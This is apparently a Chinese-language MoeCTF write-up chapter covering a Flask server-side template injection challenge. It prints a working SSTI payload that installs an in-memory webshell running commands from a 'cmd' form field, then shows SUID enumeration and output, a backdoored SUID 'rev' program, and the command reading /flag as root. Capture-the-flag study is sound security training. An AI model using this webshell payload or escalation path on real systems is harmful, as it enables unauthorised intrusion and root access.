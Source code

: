 
## [内存马 + SUID 提权] 22 第二十二章 血海核心·千年手段

打 SSTI 内存马

```python
{{url_for.__globals__['__builtins__']['eval'](
"app.after_request_funcs.setdefault(None, []).append(lambda resp: CmdResp if request.form.get('cmd') and exec(\"global CmdResp;CmdResp=__import__('flask').make_response(__import__('os').popen(request.form.get('cmd')).read())\")==None else resp)",
{'request':url_for.__globals__['request'],'app':url_for.__globals__['sys'].modules['__main__'].__dict__['app']}
)}}
```

进去 shell 发现权限不够，于是尝试 SUID 提权。SUID 程序查找

```python
find / -type f -perm -4000 2>/dev/null
```

```python
(MoeCTFer:/app) $ find / -type f -perm -4000 2>/dev/null
/usr/bin/rev
/usr/bin/mount
/usr/bin/passwd
/usr/bin/su
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/sudo
```

如果 `rev` 这个二进制文件带有 **SUID root 权限位**，当任何用户执行它时，进程的 **有效用户 ID (EUID)** 会被设置为 **文件属主**（root），而不是当前登录的用户。

rev.c

```python
#include <unistd.h>
#include <string.h> 
int main(int argc, char **argv) { 
for(int i = 1; i + 1 < argc; i++) { 
if (strcmp("--HDdss", argv[i]) == 0) { 
execvp(argv[i + 1], &argv[i + 1]); 
} 
} 
return 0; 
}
```

根据 rev.c 的代码逻辑，我们可以看到它会遍历传入的参数，寻找 `--HDdss` 标志，一旦找到，就会执行它后面的命令。

```python
rev --HDdss cat /flag
```

---